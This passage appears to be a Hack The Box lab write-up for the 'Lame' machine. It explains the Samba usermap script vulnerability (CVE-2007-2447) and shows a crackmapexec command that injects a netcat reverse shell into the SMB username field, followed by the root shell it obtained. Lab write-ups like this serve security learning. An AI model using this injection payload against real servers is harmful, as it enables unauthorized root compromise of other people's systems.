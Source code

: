 Looking at the Metasploit script we discover this is  `CVE-2007-2447` also known as Samba Usermap script.

```console
'References'     =>
    [
         [ 'CVE', '2007-2447' ],
         [ 'OSVDB', '34700' ],
         [ 'BID', '23972' ],
         [ 'URL', 'http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534' ],
         [ 'URL', 'http://samba.org/samba/security/CVE-2007-2447.html' ]
    ],
```

Further analysis on Metasploit script indicates the vulnerability is in the `Username` field which takes the below parameter along with the payload.

```console
"/=`nohup " + payload.encoded + "`"
```

In POSIX or POSIX-like shells (ksh, bash, ash, zsh, yash), The command in the braces of $() or between the backticks (``) is executed in a subshell and the output is then placed in the original command.

Metasploit is using the `nohup` command short for no hang up which is a command in Linux systems that keep processes running even after exiting the shell or terminal and starting the process outside of current context then a payload.

## Root shell

### Crackmapexec - Username

Sending the username field data along with reverse shell payload via crackmapexec to get reverse shell as root:

```shell
cfx:  ~/Documents/htb/lame
→ crackmapexec smb --shares 10.10.10.3 -u './=`nohup nc -e /bin/sh 10.10.14.17 8021`' -p ''
SMB         10.10.10.3      445    LAME             [*] Unix (name:LAME) (domain:hackthebox.gr) (signing:False) (SMBv1:True)
```
### Getting a call back on our nc listener

```shell
cfx:  ~/Documents/htb/lame/CVE-2007-2447  |master ✓|
→ nc -lvnp 8021
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::8021
Ncat: Listening on 0.0.0.0:8021
Ncat: Connection from 10.10.10.3.
Ncat: Connection from 10.10.10.3:53556.
whoami
root
id
uid=0(root) gid=0(root)
exit
```
